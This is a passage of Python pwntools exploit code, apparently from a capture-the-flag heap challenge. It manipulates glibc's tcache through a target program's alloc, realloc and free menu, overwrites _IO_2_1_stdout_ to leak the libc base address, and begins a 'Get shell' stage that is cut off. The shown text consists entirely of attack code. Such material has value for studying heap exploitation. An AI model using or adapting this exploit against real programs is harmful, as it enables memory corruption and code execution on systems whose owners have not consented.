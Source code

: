 ```py

    # Setup next chunk and so on
    print ("Setup next chunk -----------------------------------------------------------------------")
    alloc (p, b'1', b'104', p64 (0) * 3 + p64 (0x21))
    realloc (p, b'1', b'120', b'\x00')
    free (p, b'1')

    for i in range (7):
        alloc (p, b'1', b'104', b'dd')
        realloc (p, b'1', b'120', b'dd')
        free (p, b'1')

    # next chunk
    print ("Next chunk -------------------------------------------------------------------------")
    alloc (p, b'1', b'104', b'dd')
    realloc (p, b'1', b'104', p64 (0) * 3 + p64(0x21) + p64 (0) * 3 + p64 (0x21))
    free (p, b'1')

    free (p, b'0')

    ### set up tcache entry
    print ("Setup tcache entry ---------------------------------------------------------------------")
    alloc (p, b'0', b'60', b'\xc0')
    realloc (p, b'0', b'0', b'')
    realloc (p, b'0', b'60', b'\xc0')
    alloc (p, b'1', b'60', p64 (0) * 3)
    realloc (p, b'1', b'80', p64 (0) * 3 + p64 (0x41) + b'\x60\x27') # 1/16 
    free (p, b'1')
    realloc (p, b'0', b'80', p64 (0) * 2)
    free (p, b'0')

    ### Overwrite _IO_2_1_stdout_
    print ("Overwrite _IO_2_1_stdout_ -----------------------------------------------------------------")
    alloc (p, b'0', b'60', b'dd')
    _IO_MAGIC = 0xfbad0000
    _IO_IS_APPENDING = 0x1000
    _IO_CURRENTLY_PUTTING = 0x800
    p.sendlineafter (b'Your choice: ', b'1')
    p.sendafter (b'Index:', b'1')
    p.sendafter (b'Size:', b'60')

    p.sendafter (b'Data:', p64 (_IO_MAGIC | _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING) + p64 (0) * 3)
    
    p.recv (8)
    
    libc.address = u64 (p.recv (6) + b'\x00' * 2) - libc.symbols['_IO_stdfile_2_lock']
    print ("The address of libc is: ", hex (libc.address))

    free (p, b'0')

    ### get shell
    print ("Get shell -----------------------------------------------------------------------------------")

    alloc (p, b'0', b'104', b'dd')
    realloc (p, b'0', b'0', b'')
    realloc (p, b'0', b'50', b'dd')
    free (p, b'0')

```